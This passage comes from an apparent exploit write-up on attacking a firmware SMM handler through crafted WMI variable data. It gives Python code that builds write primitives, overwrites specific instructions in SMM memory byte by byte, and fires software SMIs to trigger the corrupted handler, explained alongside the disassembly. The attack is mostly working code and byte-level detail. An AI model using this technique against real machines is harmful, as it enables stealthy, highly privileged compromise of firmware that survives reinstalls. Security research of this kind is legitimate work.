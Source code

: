 `B8 20 00 00 00   mov     eax, 20h ; ' '` 

now turns into:

`66 00 00 00 00   data16 add BYTE PTR [rax],al` 

Do I have any idea what's in RAX when this function is first called? No, because debugging doesn't exist in SMM mode unless you sign a corporate NDA with Intel (_btw, Intel, hook a brother up_). But it doesn't crash and zeroes out RAX, which is all that matters.

Moving on to disabling line 3:

`66 89 02         mov     [rdx], ax`

<div class="example">
</div>
```
def disable_0x20(self):
    primitive = b"\x66\x00\x00\x00\x00\x00\x00"

    data = self.gen_bad_var_data(
        wmi_memaddr=self.MovEax20Address, # mov     eax, 20h ; ' '
        write_primitive=primitive,
    )

    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)

    # nothing other than 0x0 0x00 will be written with this set to null
    primitive = b"\x00\x00\x00\x00\x00\x00\x00"

    data = self.gen_bad_var_data(
        wmi_memaddr=self.MovRdxAxAddress, # mov [rdx], ax
        write_primitive=primitive,
    )

    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```

With RAX set to 0x0, I use the same trick, but this time, 0x66 is already in place, so I just need two 0x0 bytes—which I just happen to have already in RAX from the last step:

`66 89 02         mov     [rdx], ax`

becomes:

`66 00 00         data16 add BYTE PTR [rax],al`

And with that, the function will no longer write `0x20 0x00` at the start of `DestAddress` - putting me one step closer the finish line. I simply need to take into consideration that the function begins writing whatever data I want at +0x2 bytes from my target address (so, target-0x79-0x2).

To recap what's been changed so far:
